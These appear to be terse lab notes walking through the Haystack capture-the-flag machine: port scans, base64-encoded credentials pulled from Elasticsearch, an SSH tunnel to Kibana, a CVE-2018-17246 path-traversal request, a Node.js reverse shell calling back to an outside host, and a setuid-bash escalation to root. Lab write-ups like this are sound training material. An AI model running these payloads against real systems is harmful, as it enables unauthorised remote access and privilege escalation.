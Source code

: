 sudo nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.10.115 -oG allPorts
sudo nmap -p22,80,9200 -sCV 10.10.10.115 -oN Targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 23:39 CEST
Nmap scan report for 10.10.10.115
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a8de2928b14b63fe42f3a4743238b2b (RSA)
|   256 e75a3a978e8e728769a30dd100bc1f09 (ECDSA)
|_  256 01d259b2660a9749205f1c84eb81ed95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.12.2
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: DELETE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds

mv ~/Downloads/Descargas/needle.jpg .
ExifTool Version Number         : 12.16
File Name                       : needle.jpg
Directory                       : .
File Size                       : 179 KiB
File Modification Date/Time     : 2023:04:21 23:42:24+02:00
File Access Date/Time           : 2023:04:21 23:42:24+02:00
File Inode Change Date/Time     : 2023:04:21 23:42:38+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 96
Y Resolution                    : 96
Resolution Unit                 : inches
Software                        : paint.net 4.1.1
User Comment                    : CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 90.
Image Width                     : 1200
Image Height                    : 803
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1200x803
Megapixels                      : 0.964

strings -n 10 needle.jpg

bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
echo 'bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==' | base64 -d
"la aguja en el pajar es "clave"%"

Nada wfuzz tipico

wfuzz -c -t 200 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.115:9200/FUZZ

000000687:   200        0 L      1 W        338 Ch      "quotes"
000003642:   200        0 L      1 W        1010 Ch     "bank"
000007004:   200        0 L      1 W        2 Ch        "*checkout*"                                                                                      
000016413:   200        0 L      1 W        4136 Ch     "*"                                                                                               
000015463:   200        0 L      1 W        2 Ch        "*docroot*"

http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000

curl 'http://10.10.10.115:9200/quotes/_search?pretty=true&size=1000' > haystack.txt

cat haystack.txt| grep "clave"

"quote" : "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
"quote" : "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
❯ echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d
pass: spanish.is.key%                                                                                                                                        ❯ echo 'dXNlcjogc2VjdXJpdHkg' |base64 -d
user: security %

ssh connect

sudo -l nothing

[security@haystack home]$ cat /proc/net/tcp | grep '00000000:0000 0A'
   0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38071 1 ffff93b16e2407c0 100 0 0 10 0                     
   1: 00000000:23F0 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 38070 1 ffff93b16e240f80 100 0 0 10 0                     
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 37910 1 ffff93b16e240000 100 0 0 10 0                     
   3: 0100007F:15E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000   994        0 260693 1 ffff93b16e2464c0 100 0 0 10 0  
0.0.0.0:80
0.0.0.0:9200
0.0.0.0:22
127.0.0.1:5601

ssh> -L 5601:localhost:5601


https://github.com/mpgn/CVE-2018-17246

http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/kraken.js

[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-0e42240d40d449479f1827df5cdc85f1-chronyd.service-uWVFDs	vmware-root
jruby-6234	systemd-private-0e42240d40d449479f1827df5cdc85f1-elasticsearch.service-ux1hQZ	vmware-root_6238-700485133
kraken.js	systemd-private-0e42240d40d449479f1827df5cdc85f1-nginx.service-McmzxV
[security@haystack tmp]$ cat kraken.js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();



bash-4.2$ ls -la /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash

bash -p
whoami
root
